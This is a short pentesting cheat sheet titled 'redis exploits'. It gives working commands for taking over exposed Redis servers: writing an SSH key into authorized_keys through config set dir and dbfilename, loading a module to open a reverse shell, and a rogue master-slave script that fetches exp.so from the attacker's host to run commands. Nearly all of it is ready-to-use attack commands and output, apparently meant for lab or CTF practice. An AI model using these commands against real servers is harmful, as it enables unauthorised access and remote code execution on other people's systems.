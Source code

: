 # redis exploits

## Config get dir Exploit

Note : need to know home of redis user

```bash
# redis-cli -h <IP>
> config get dir
1) "dir"
2) "/var/lib/redis"

# ssh-keygen -f id_rsa
# 3 spaces before and after key: (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > spaced_id_rsa.txt
# cat spaced_id_rsa.txt| redis-cli -h IP -x set kashz
OK
> config set dir .ssh
OK
> config get dir
"/var/lib/redis/.ssh"
> config set dbfilename "authorized_keys"
OK
> save
OK
# ssh using id_rsa and user
```

## [load module](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis#load-redis-module)

```
# need to be able to write module to target and know path of write file

# revere shell
system.rev IP PORT
```

## master-slave exploit

* https://github.com/vulhub/redis-rogue-getshell

```python
python3 redis-master.py -r IP -p 6379 -L KALI_IP -P 27017 -f RedisModulesSDK/exp.so -c "id"
```
